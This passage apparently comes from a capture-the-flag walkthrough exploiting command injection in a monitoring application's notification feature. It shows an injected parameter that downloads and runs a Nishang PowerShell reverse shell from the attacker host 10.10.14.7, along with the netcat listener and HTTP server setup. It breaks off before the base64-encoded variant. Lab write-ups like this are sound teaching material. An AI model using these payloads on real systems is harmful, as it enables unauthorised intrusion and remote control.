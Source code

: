 This [blog](https://www.codewatch.org/blog/?p=453) explains in detail how the vulnerability was found. The issue seems to be with a test notification script that is included in the default installation of the application. The script does not validate user input and therefore is vulnerable to a command injection.

The notification system can be accessed through _Setup_ &gt; _Account Settings_ &gt; _Notifications_. Click on the _Add new notification_ icon. Add ‘_test_’ as the _Notification Name_. Then click on _execute Program_ and select the _Program File outfile.ps1_. In the _Parameter field_, let’s test out command injection by pinging our attack machine.

![](https://miro.medium.com/max/1238/1*VqzzBbaOo2UvYdazApqBWg.png)

Hit Save. On the attack machine run the following command to see if the program does ping us.

```text
tcpdump -i tun0 icmp
```

We get a hit back, so this is definitely vulnerable to a command injection.

![](https://miro.medium.com/max/1116/1*2Uc5wzm-RQV5fQ1IE438mQ.png)

Download the [Nishang](https://github.com/samratashok/nishang) repository and copy the _Invoke-PowerShellTcp.ps1_ script into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.

Start up a python server in the directory that the shell script resides in.

```text
python -m SimpleHTTPServer 5555
```

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Then going back to the test notification job we created, change the _Parameter_ field to the following string.

```text
bla | iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell.ps1')
```

Click on the test object and send the test notification. We see that it downloaded the reverse shell, however, it didn’t give us a shell back. This could be because the application is not properly interpreting the characters in the command. So instead, let’s base64 encode it.
